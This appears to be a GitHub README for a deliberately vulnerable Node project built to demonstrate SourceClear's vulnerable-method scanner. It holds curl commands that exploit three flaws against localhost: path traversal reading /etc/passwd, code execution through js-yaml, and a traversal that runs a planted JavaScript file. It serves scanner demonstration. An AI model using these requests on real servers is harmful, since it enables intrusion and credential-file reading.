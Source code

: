 # [:] Example node project with vulnerable methods

A node project to demonstrate srcclr agent's vulnerable methods feature for JavaScript

## Vulnerability 1 (SID-13642) Exploit

```
git clone https://github.com/srcclr/example-javascript-vulnerable-methods.git
cd example-javascript-vulnerable-methods
npm install
node index.js

```
The vulnerable method is called twice during the server startup, however another one needs to be trigged by issuing a
request to the endpoint by running the following command in another terminal to trigger the code execution vulnerability 
in `js-yaml:load`

```
curl --path-as-is 'http://127.0.0.1:8001/api/'
```

## Vulnerability 2 (SID-20301) Exploit

Use the following to trigger the directory traversal vulnerability (SID-20301)in `algo-httpserv:serve` 

```
curl --path-as-is 'http://127.0.0.1/8001/../../../../../../etc/passwd'
```


## Vulnerability 3 (SID-21402) Exploit

```
git clone https://github.com/srcclr/example-javascript-vulnerable-methods.git
cd example-javascript-vulnerable-methods
npm install
node larvitbase-api.js

```

and then run the following command in another terminal

```
curl --path-as-is 'http://127.0.0.1:8001/../../../../hacked'
```
You can see the JavaScript file`hacked.js` is executed in the server side.

## Scan with SRCCLR Agent

```
brew tap srcclr/srcclr
brew install srcclr
srcclr activate
srcclr scan --url https://github.com/srcclr/example-javascript-vulnerable-methods
```

somechange
somechange pull
somechangetcomment
